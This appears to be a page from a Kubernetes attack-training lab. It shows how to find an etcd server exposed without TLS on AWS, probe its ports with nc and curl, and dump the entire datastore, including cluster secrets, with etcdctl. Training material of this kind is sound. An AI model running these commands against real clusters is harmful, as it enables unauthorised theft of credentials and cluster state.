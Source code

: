 # Access the Etcd Services Directly

## Services Available

- `22/tcp` - [SSH](https://openssh.org)
- `2379/tcp` - [Etcd server service](https://github.com/coreos/etcd#etcd-tcp-ports)
- `2380/tcp` - [Etcd peer discovery service](https://github.com/coreos/etcd#etcd-tcp-ports)

Set the `etcd` IP to a variable:
```
$ export ETCDIP=$(aws ec2 describe-instances \
  --region ${AWS_DEFAULT_REGION} \
  --filter 'Name=tag:Name,Values=etcd' \
  --query 'Reservations[].Instances[].NetworkInterfaces[0].Association.PublicIp' \
  --output text)
```

### Probe the `ssh` port:

Verify the port is responding:
```
$ nc -v $ETCDIP 22
Connection to 18.233.67.127 port 22 [tcp/ssh] succeeded!
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
```

### Probe the `etcd` server port:

Verify the port is responding:
```
$ nc -z $ETCDIP 2379
Connection to 18.233.67.127 port 2379 [tcp/*] succeeded!
```
From this, we know that an external IP can access the `etcd` server directly.  This shouldn't ever be the case.

Verify that the port is a web port:
```
$ curl $ETCDIP:2379
404 page not found
```
This tells us that `etcd` is not listening with TLS and it's reachable. This is catastrophically bad for the integrity of this cluster.

Obtain the `etcd` version:
```
$ curl $ETCDIP:2379/version
{"etcdserver":"3.2.11","etcdcluster":"3.2.0"}
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" version
etcdctl version: 3.3.2
API version: 3.3
```

Use `etcdctl` to get the `etcd` cluster health:
```
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" endpoint health
http://18.233.67.127:2379 is healthy: successfully committed proposal: took = 6.903553ms
```

Get the `etcd` cluster members:
```
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" member list
e0187950b759a617, started, ip-10-1-0-5, http://10.1.0.5:2380, http://10.1.0.5:2379
```

Dump the entire contents of `etcd`'s datastore:
```
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" get "" --from-key > etcd.raw
or
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" snapshot save etcd.dump
Snapshot saved at etcd.dump
```

Dig into the `etcd.dump` using `vi` or [boltbrowser](https://github.com/br0xen/boltbrowser):
```
$ vi etcd.raw
or
$ vi etcd.dump
or
$ ./boltbrowser etcd.dump
```
You now have a complete, bit-for-bit copy of the entire state of the cluster.  This includes pods, configmaps, secrets, and more.

### Probe the `etcd` peer discovery port:

Verify the port is responding:
```
$ nc -z $ETCDIP 2380
Connection to 18.233.67.127 port 2380 [tcp/*] succeeded!
```

Verify that the port is a web port:
```
$ curl $ETCDIP:2380
404 page not found
```

Obtain the `etcd` version:
```
$ curl $ETCDIP:2380/version
{"etcdserver":"3.2.11","etcdcluster":"3.2.0"}
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" version
etcdctl version: 3.3.2
API version: 3.3
```
The `etcd` discovery service should not be exposed to any systems but the `etcd` servers.

[Back](/README.md#level-0-attacks) | [Next](direct-controller.md)
